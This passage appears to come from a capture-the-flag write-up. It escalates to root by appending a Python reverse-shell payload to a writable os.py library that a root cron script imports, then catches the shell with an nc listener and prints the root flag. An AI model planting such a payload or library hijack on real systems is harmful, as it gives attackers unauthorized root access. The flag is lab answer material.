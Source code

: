 The script itself doesn't do much. It connects to localhost and outputs the result in a log file on the same directory as the script.

~~~
jack@jack:/opt/statuscheck$ cat checker.py 
import os

os.system("/usr/bin/curl -s -I http://127.0.0.1 >> /opt/statuscheck/output.log")
~~~

But... we have write access to `/usr/lib/python2.7/os.py` which is imported in the script:

~~~
jack@jack:/usr/lib/python2.7$ ls -l /usr/lib/python2.7/os.py
-rw-rw-r-x 1 root family 25908 Jan 10 19:22 /usr/lib/python2.7/os.py
~~~

Time to write some python code. Append the following content at the end of `/usr/lib/python2.7/os.py`:

```python
import socket
import pty
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.9.0.54",5555))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

Open a listener on port 5555 (or whatever you specified in the code above) and wait. You can run `pspy` in parallel on the server to monitor the cron job.

~~~
$ rlwrap nc -nlvp 5555
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 10.10.148.86.
Ncat: Connection from 10.10.148.86:44732.
root@jack:~# cat root.txt
cat root.txt
b8b63a861cc09e853f29d8055d64bffb
~~~

Root flag: `b8b63a861cc09e853f29d8055d64bffb`

Really great challenge! Congrats to the author, I had a lot of fun!

**Note: Don't forget to remove the entry from the `/etc/hosts` file**
